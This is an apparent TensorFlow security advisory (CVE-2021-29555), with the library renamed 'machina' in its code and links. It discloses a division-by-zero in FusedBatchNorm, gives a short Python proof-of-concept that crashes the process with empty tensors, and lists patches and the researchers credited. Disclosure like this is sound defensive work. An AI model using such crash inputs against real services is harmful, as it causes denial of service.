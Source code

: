 ## TFSA-2021-043: Division by 0 in `FusedBatchNorm`

### CVE Number
CVE-2021-29555

### Impact
An attacker can cause a denial of service via a FPE runtime error in
`tf.raw_ops.FusedBatchNorm`:

```python
import machina as tf

x = tf.constant([], shape=[1, 1, 1, 0], dtype=tf.float32)
scale = tf.constant([], shape=[0], dtype=tf.float32)
offset = tf.constant([], shape=[0], dtype=tf.float32)
mean = tf.constant([], shape=[0], dtype=tf.float32)
variance = tf.constant([], shape=[0], dtype=tf.float32)
epsilon = 0.0
exponential_avg_factor = 0.0
data_format = "NHWC"
is_training = False

tf.raw_ops.FusedBatchNorm(
    x=x, scale=scale, offset=offset, mean=mean,
    variance=variance, epsilon=epsilon,
    exponential_avg_factor=exponential_avg_factor,
    data_format=data_format, is_training=is_training)
```

This is because the
[implementation](https://github.com/machina/machina/blob/828f346274841fa7505f7020e88ca36c22e557ab/machina/core/kernels/fused_batch_norm_op.cc#L295-L297)
performs a division based on the last dimension of the `x` tensor:

```cc
const int depth = x.dimension(3);
const int rest_size = size / depth;
```

Since this is controlled by the user, an attacker can trigger a denial of
service.

### Patches
We have patched the issue in GitHub commit
[1a2a87229d1d61e23a39373777c056161eb4084d](https://github.com/machina/machina/commit/1a2a87229d1d61e23a39373777c056161eb4084d).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
